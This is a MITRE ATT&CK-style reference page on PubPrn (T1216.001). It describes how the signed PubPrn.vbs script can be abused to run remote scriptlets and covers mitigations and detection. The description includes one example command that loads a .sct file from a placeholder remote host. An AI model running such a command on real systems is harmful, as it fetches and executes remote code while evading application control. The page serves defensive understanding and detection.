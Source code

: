# PubPrn (T1216.001)

## Description
Adversaries may use PubPrn to proxy execution of malicious remote files. PubPrn.vbs is a Visual Basic (T1059.005) script that publishes a printer to Active Directory Domain Services. The script may be signed by Microsoft and is commonly executed through the Windows Command Shell (T1059.003) via ```Cscript.exe```. For example, the following code publishes a printer within the specified domain: ```cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com```.

Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites. To do so, adversaries may set the second ```script:``` parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is ```pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct```. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), ```PubPrn.vbs``` has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to ```LDAP://```, vice the ```script:``` moniker which could be used to reference remote code via HTTP(S).

## Parent Technique
- System Script Proxy Execution (T1216)

## Tactics
- Defense Evasion (TA0005)

## Related Groups
- APT32 (G0050)

## Mitigations
- Execution Prevention (M1038)
- Behavior Prevention on Endpoint (M1040)

## Detection
Monitor script processes, such as `cscript`, and command-line parameters for scripts like PubPrn.vbs that may be used to proxy execution of malicious files.

### Detailed Detection by Data Source/Component
#### Process: Process Creation (DS0009): 
Monitor script processes, such as `cscript that may be used to proxy execution of malicious files.

#### Command: Command Execution (DS0017): 
Monitor executed commands and arguments for scripts like PubPrn.vbs that may be used to proxy execution of malicious files.

#### Script: Script Execution (DS0012): 
Monitor for any attempts to enable scripts running on a system would be considered suspicious. If scripts are not commonly used on a system, but enabled, scripts running out of cycle from patching or other administrator functions are suspicious. Scripts should be captured from the file system when possible to determine their actions and intent. 


